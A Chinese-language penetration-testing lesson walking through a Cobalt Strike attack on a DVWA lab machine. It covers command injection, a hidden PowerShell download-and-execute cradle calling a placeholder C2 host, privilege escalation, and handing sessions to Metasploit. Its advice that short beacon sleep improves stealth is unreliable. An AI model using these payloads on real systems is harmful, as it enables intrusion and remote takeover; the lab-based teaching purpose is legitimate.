# 网络安全：P59：CobaltStrike实战演示

在本节课中，我们将学习CobaltStrike（CS）的实战攻击流程，包括利用Web漏洞使靶机上线、权限提升尝试，以及如何与Metasploit（MSF）框架进行联动，实现更强大的渗透测试能力。

## 攻击流程概述

上一节我们介绍了CobaltStrike的基本操作。本节中，我们来看看一个完整的CS攻击流程。CS的攻击流程与MSF类似，其核心步骤如下：

1.  **设置监听器**：CS的所有操作都基于监听器，这是攻击的起点。
2.  **发现漏洞**：在目标网站或系统中寻找可利用的漏洞点，例如命令执行、文件上传等。
3.  **生成并投递木马**：利用发现的漏洞，让目标执行CS生成的木马程序。
4.  **权限提升**：在靶机上线后，尝试将获得的用户权限提升至更高等级（如SYSTEM权限）。
5.  **内网渗透**：利用已控制的机器作为跳板，进行内网信息收集和横向移动。

## 实战环境搭建



以下是本次演示所需的环境与工具：
*   **攻击机**：运行CobaltStrike。
*   **靶机**：Windows 10系统，并搭建了DVWA（Damn Vulnerable Web Application）漏洞测试平台。
*   **辅助工具**：Kali Linux（用于运行Metasploit）。

> 注意：CobaltStrike和Metasploit是功能强大的安全工具，仅限在授权的测试环境或自己搭建的虚拟机环境中学习和使用。在未经授权的真实环境中使用是违法行为。

## 利用命令执行漏洞上线

我们首先演示如何利用DVWA中的命令执行漏洞使靶机上线。

### 1. 定位漏洞点



访问靶机上的DVWA网站，将安全级别设置为“Low”。找到“Command Execution”漏洞模块。在该页面，输入框可通过拼接系统命令实现远程命令执行。



例如，输入 `127.0.0.1 && ipconfig` 并提交，页面会返回执行 `ipconfig` 命令的结果，这证实了漏洞存在。

### 2. 生成攻击载荷

在CobaltStrike中，我们需要生成一个能通过命令执行漏洞触发的木马。



1.  点击菜单 **Attack -> Web Drive-by -> Scripted Web Delivery**。
2.  在弹出的窗口中，选择之前配置好的监听器。
3.  设置本地端口（例如 `1234`，避免常用端口冲突）。
4.  选择Payload类型，例如 `powershell`。
5.  根据目标系统架构决定是否勾选 `x64`。本次演示生成32位载荷。
6.  点击 **Generate** 按钮。

CobaltStrike会生成一条PowerShell命令，例如：
```powershell
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://YOUR_CS_IP:1234/a'))"
```





### 3. 投递并执行载荷



将生成的PowerShell命令复制，粘贴到DVWA的命令执行输入框中，格式为 `127.0.0.1 && [粘贴的命令]`。

点击提交后，返回CobaltStrike界面。稍等片刻，即可在 **Beacons** 列表中发现一个新的会话上线，这表示靶机已成功被我们控制。

靶机上线后，建议立即在Beacon中右键会话，选择 **Session -> Sleep**，将回连间隔设置为较短时间（如2-5秒），以增加隐蔽性。



## 权限提升尝试



获得初始会话后，我们通常需要提升权限。当前会话用户为普通用户（如`admin`），我们希望获得`SYSTEM`权限。





在CobaltStrike中，可以尝试使用内置的提权模块：
1.  右键目标会话，选择 **Explore -> Elevate**。
2.  在弹出的提权模块列表中，选择一个进行尝试（例如 `ms14-058`）。
3.  选择监听器，点击 **Launch**。

如果提权成功，会获得一个新的具有`SYSTEM`权限的会话。但内置模块可能因系统环境而失败，此时需要寻找其他提权方法或导入第三方提权插件。





## CobaltStrike与Metasploit联动





CS与MSF源于同宗，联动可以结合两者优势。下面演示如何将CS的会话转移到MSF中。



### 1. 在MSF中设置监听



首先，在Kali Linux中启动Metasploit，并设置一个反向HTTP监听器。

```bash
# 启动MSF控制台
msfconsole



# 在msf6提示符下，依次执行以下命令
use exploit/multi/handler
set payload windows/meterpreter/reverse_http
set LHOST 10.0.0.9  # 填写Kali主机的IP
set LPORT 4447
exploit -j
```
执行后，MSF开始在 `10.0.0.9:4447` 上监听。



### 2. 在CS中配置转发监听器

接下来，需要在CobaltStrike中创建一个指向MSF监听器的“中转”监听器。

1.  在CS中，点击 **Cobalt Strike -> Listeners**。
2.  点击下方 **Add** 按钮，新增一个监听器。
3.  设置 **Name** 为 `MSF`。
4.  设置 **Payload** 为 `windows/beacon_http/reverse_http`。
5.  在 **HTTP Hosts** 中填写MSF监听器的IP地址（`10.0.0.9`）。
6.  在 **HTTP Port (C2)** 中填写MSF监听器的端口（`4447`）。
7.  点击 **Save**。

### 3. 会话转移

现在，我们可以将CS的会话“派发”到MSF。

1.  在CS中，右键目标会话，选择 **Spawn**。
2.  在弹出的新窗口中，选择我们刚刚创建的 `MSF` 监听器。
3.  点击 **Choose**。



切换回MSF终端，可以看到MSF成功接收到了来自CS转发的Meterpreter会话。至此，我们可以在MSF中使用丰富的后期利用模块对目标进行深入操作。





## 总结



本节课中我们一起学习了CobaltStrike的实战攻击流程。我们首先利用DVWA的命令执行漏洞生成并投递木马，使靶机成功上线。随后，我们尝试了权限提升，并重点演示了如何将CobaltStrike与Metasploit框架联动，将CS会话转移至MSF，从而结合两款工具的强大功能进行更深入的渗透测试。请务必在合法授权的环境中练习这些技术。